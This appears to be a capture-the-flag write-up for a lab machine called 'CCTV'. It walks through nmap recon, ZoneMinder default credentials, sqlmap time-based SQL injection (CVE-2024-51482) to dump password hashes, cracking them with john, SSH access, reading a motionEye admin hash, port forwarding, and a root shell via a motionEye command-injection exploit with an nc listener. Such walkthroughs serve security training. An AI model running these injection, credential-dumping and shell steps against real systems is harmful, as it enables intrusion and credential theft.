

# CCTV

# Recon

## 1. Nmap

```python
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 
(Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 76:1d:73:98:fa:05:f7:0b:04:c2:3b:c4:7d:e6:db:4a (ECDSA)
|_ecdsa-sha2-nistp256 
AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDZ15GCLPzC4gTM0nqzpUbr/2L77bM1C9sbBecivQPX/KcKvJrP88peCJXwTug7T/EORHr7M7JeHtMQJ6hYihFA=
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.58
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://cctv.htb/
```

### 2. HTTP (80)

Browsing to `http://cctv.htb` reveals a CCTV company website. Directory brute-forcing reveals `/zm` - ZoneMinder installation.

**ZoneMinder Login Page**: `http://cctv.htb/zm/index.php`



Default credentials work:

- **Username**: `admin`
- **Password**: `admin`

### **3. CVE-2024-51482 - ZoneMinder SQL Injection**

ZoneMinder versions 1.37.* through 1.37.64 contain a time-based blind SQL injection in the `tid` parameter of the event tag removal endpoint.


- Some of the user are exposed.


### 4. SqlMap

We can exploit `/zm/index.php?view=request&request=event&action=removetag&tid=1` endpoint using the `tid` as our entering point through sqlmap.

```python
sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1"
 \ --cookie="ZMSESSID=" 
 \ -p tid --technique=T --time-sec=5 --batch
```

Extracting Credentials from the DB.

```python
sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1"
\ --cookie="ZMSESSID=" 
\ -p tid -D zm -T Users -C Username,Password 
\ --dump --batch
```

### 5. POC Scirpt

Searching a little we can find the cve poc on github

[https://github.com/plur1bu5/CVE-2024-51482-PoC](https://github.com/plur1bu5/CVE-2024-51482-PoC)

```python
python3 poc.py -t cctv.htb -u admin -p admin 
```

**Output:**

```python

=============================================================================
| Username   | Password                                                     |
=============================================================================
| admin      | $2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm |
| mark       | $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |
| superadmin | $2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m |
=============================================================================
```

### **6. Cracking Hashes**

```python
cat > hashes.txt << 'EOF'
admin:$2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm
mark:$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.
superadmin:$2y$10$t5z8uIT.n9uCdHCNidcLf.39T1Ui9nrlCkdXrzJMnJgkTiAvRUM6m
EOF

john --format=bcrypt hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Cracked Credentials:**

- **superadmin**: `admin`
- **mark**: `opensesame`
- **admin**: `admin`

### **7. SSH as mark (22)**

```python
ssh mark@cctv.htb
# Password: opensesame
```

### **8. Lateral Movement - Discovering motionEye**

**Check running services**

```python
ss -tlnp
netstat -tulpn
```

Port `8765` is listening locally - motionEye web interface.

### 9. Find motionEye configuration

```python
grep -r "password" /etc/motioneye/ 2>/dev/null
```

**Output:**

```python
mark@cctv:~$ grep -r "password" /etc/motioneye/ 2>/dev/null
/etc/motioneye/camera-1.conf:# @network_password 
/etc/motioneye/camera-1.conf:# @upload_password 
/etc/motioneye/motion.conf:# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0
/etc/motioneye/motion.conf:# @normal_password 
```

```python
admin : 989c5a8ee87a0e9521ec81a79187d162109282f0
```

### **10. Port Forwarding**

```python
ssh -L 8765:127.0.0.1:8765 mark@cctv.htb
```

Now access motionEye locally: `http://127.0.0.1:8765`

**Login credentials**:

- **Username**: `admin`
- **Password**: `989c5a8ee87a0e9521ec81a79187d162109282f0`

## Privilege Escalation - motionEye RCE

### 11. Motion Eye Exploit

motionEye has a command injection vulnerability through the config parameter. Public exploit available:

https://github.com/prabhatverma47/motionEye-RCE-through-config-parameter

### Root


Setup a **listener**

```python
nc -lvnp 4444
```

After some time you’ll get shell as root 

Confirm with ‘whoami’

```bash
cat /root/root.txt
```